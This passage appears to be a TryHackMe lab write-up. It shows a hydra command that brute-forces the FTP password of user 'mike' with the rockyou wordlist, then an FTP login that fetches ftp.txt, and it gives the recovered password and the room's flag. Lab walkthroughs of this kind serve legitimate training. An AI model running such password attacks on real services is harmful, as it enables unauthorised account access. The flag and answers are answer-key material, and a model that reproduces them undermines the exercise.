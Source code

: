 ![Task 10](/assets/img/thm/network-services/task-10.png)

* What is the password for the user "mike"?

We use hydra : `hydra -t 4 -l mike -P rockyou.txt -vV ip_machine ftp` and find the password : **password**.

* What is ftp.txt?

We connecte with ftp : `ftp ip_machine` with the login `mike` and the password `password`.  
We use `ls` and find the file `ftp.txt`. We get it with `get ftp.txt`. We read it with the command `cat ftp.txt`.  
The flag is `THM{y0u_g0t_th3_ftp_fl4g}`.